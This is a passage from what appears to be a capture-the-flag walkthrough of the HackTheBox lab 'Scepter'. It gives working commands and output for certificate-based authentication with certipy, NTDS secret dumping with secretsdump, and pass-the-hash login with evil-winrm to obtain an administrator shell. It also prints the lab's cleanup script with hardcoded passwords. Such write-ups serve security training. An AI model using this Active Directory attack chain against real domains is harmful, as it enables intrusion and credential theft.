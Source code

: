 And let's authenticate.
```bash
certipy auth -pfx d.baker.pfx -username p.adams -domain scepter.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: p.adams@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

Success! We have `p.adams` ccache! Let's dump some secrets!
```bash
KRB5CCNAME=p.adams.ccache secretsdump.py scepter.htb/p.adams@dc01.scepter.htb -k -no-pass

Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
<SNIP>
```

Let's authenticate using `Administrator`'s NT hash.
```bash
evil-winrm -i scepter.htb -u Administrator -H a291ead3493f9773dc615e66c2ea21c4

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Just like that we have root!
# Beyond Root

Originally I had followed `ESC9` and set the UPN of `d.baker` to `h.brown` and `p.adams`. However when taking a look at the clean-up script I noticed that there's no `UPN` cleanup.
```powershell
# clear the altSecurityIdentities attribute for user p.adams && mail attribute of d.baker user :
Set-ADUser -Identity d.baker -Clear mail
Set-ADUser -Identity p.adams -Clear altSecurityIdentities

# reset password :
Set-ADAccountPassword -Identity "a.carter" -NewPassword (ConvertTo-SecureString "Car@3024!" -AsPlainText -Force) -Reset
Set-ADAccountPassword -Identity "d.baker"  -NewPassword (ConvertTo-SecureString "bak@3025!" -AsPlainText -Force) -Reset

# Computers cleanup :
Get-ADComputer -Filter * -SearchBase "CN=Computers,DC=scepter,DC=htb" | ForEach-Object { Remove-ADComputer -Identity $_.DistinguishedName -Confirm:$false }

# Acls cleanup
dsacls.exe "OU=Staff Access Certificate,DC=scepter,DC=htb" /resetDefaultDACL
dsacls.exe "OU=Staff Access Certificate,DC=scepter,DC=htb" /G "SCEPTER\IT Support:GA"
```
